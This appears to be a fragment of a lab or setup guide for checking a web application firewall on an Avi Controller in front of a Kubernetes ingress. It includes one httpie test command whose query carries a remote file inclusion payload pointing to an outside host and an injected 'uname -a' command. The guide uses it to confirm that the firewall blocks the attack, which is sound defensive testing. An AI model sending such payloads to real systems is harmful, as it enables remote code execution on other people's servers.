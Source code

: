   - A file in the client, as well as on the k8s master called waftest.txt is copied. Append this to your httpie command and check the WAF on Avi Controller
    ```shell
    http --verify=no "https://secure-ingress.cluster1.avi.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a"
    ```
